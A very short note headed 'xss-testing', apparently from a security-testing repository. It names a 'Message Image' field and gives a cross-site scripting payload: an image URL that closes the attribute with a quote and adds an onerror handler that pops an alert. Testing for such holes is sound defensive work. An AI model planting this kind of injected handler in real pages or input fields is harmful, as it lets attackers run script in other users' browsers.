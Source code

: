 # xss-testing

Field: Message Image

Payload
https://invalid-page.com/no-image.jpg" onerror="alert('hacked!')"
